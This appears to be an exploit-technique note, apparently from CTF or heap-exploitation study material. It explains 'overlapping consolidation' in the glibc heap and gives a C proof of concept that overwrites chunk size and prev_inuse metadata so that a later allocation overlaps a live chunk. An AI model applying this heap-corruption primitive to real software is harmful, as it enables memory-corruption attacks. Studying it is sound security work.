 ## overlapping consolidation

**Purpose:** We can have two separate chunks allocated to the same space, no need heap leak (no need to create fake main_arena)

**Require:** Have an ability to change the metadata of the allocated chunks

## PoC

```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

#define CHUNK_SIZE 0x420

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);

    long *chunk0, *chunk1, *chunk2, *chunk3, *first_consolidated_chunk, *overlapping_chunk;

    chunk0 = malloc(CHUNK_SIZE);
    chunk1 = malloc(CHUNK_SIZE);
    chunk2 = malloc(CHUNK_SIZE);
    chunk3 = malloc(0x10); // Prevent top chunk consolidation

    free(chunk0); // Put chunk0 into the unsorted bin

    /* VULN HERE */
    chunk0[-1] = 0x860; // Extend the size of chunk0 to overlap with chunk1
    chunk2[-1] = 0x430; // Remove the prev_inuse bit of chunk2
    /* VULN HERE */

    chunk2[-2] = 0x860; // Fake prev_size of chunk2
    free(chunk2); // Consolidate chunk0 and chunk2 into a big free chunk

    first_consolidated_chunk = malloc(CHUNK_SIZE); // Padding this depend on purpose
    overlapping_chunk = malloc(CHUNK_SIZE); // Should overlap with chunk1

    assert(overlapping_chunk == chunk1); // Check if we successfully overlapped chunk1

    return 0;
}
```
